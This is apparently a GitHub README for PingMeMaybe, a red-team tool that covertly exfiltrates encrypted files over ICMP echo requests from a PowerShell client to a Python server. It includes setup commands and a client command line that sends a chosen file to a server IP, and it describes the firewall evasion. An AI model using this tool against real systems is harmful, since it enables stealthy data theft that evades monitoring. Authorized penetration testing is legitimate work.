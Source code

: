 # PingMeMaybe👻

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE) 
![PowerShell](https://img.shields.io/badge/PowerShell-teal?logo=powershell&logoColor=white) 
![Python](https://img.shields.io/badge/Python-yellowgreen?logo=python&logoColor=white)

> **Covert ICMP-based file exfiltration tool**  
> Encrypted file transfer over ICMP echo requests for stealthy data smuggling.

---
## Overview

PingMeMaybe is a stealthy, encrypted file exfiltration tool leveraging ICMP echo request packets (ping) to covertly transmit files between a Windows client (PowerShell) and a server (Python).  
This tool is designed for red teamers and penetration testers who want to simulate data exfiltration via ICMP — a commonly allowed protocol that can bypass many firewall rules.

## Installation

### Server Requirements

- Python 3.7+
- Required Python packages:
  - `cryptography`
  - `rich`

### Download
Clone the repository or download the scripts manually:
```bash
git clone https://github.com/MAXIVA11/PingMeMaybe.git
cd PingMeMaybe
pip install -r requirements.txt
```
 
## Usage

### Server

Run the Python server script with root privileges to listen for incoming ICMP packets:

```bash
sudo python3 server.py
```
On startup, the server will generate and display a random AES-GCM key.
Copy this key exactly as shown — you will need it on the client side.

### Client

Run the PowerShell client script on a Windows machine with the following parameters:

```powershell
.\Invoke-PingMeMaybe.ps1 -Target <Server_IP> -File <Path_to_File> -HexKey <AES-GCM_Key>
```
- **Target**: The IP address of the machine running the server.

- **File**: The full path to the file you want to exfiltrate.

- **HexKey**: The AES-GCM key generated by the server (copy-paste exactly).

### Notes

- PowerShell 7+ is recommended for AES-GCM support; if unavailable, the script falls back to AES-CBC+HMAC encryption.

- Make sure ICMP echo requests are allowed through firewalls on both client and serve

## Photos

### Server Console Example
![image](https://github.com/user-attachments/assets/74012396-64f4-4578-9e5b-1d3e5d4cd5bf)


### Client Console Example
![image](https://github.com/user-attachments/assets/16391aa0-d0b7-4a3c-8867-3428b0ca4d01)

---

## Contribution

Contributions, issues, and feature requests are welcome!  
Feel free to check the [issues page](https://github.com/MAXIVA11/PingMeMaybe/issues).
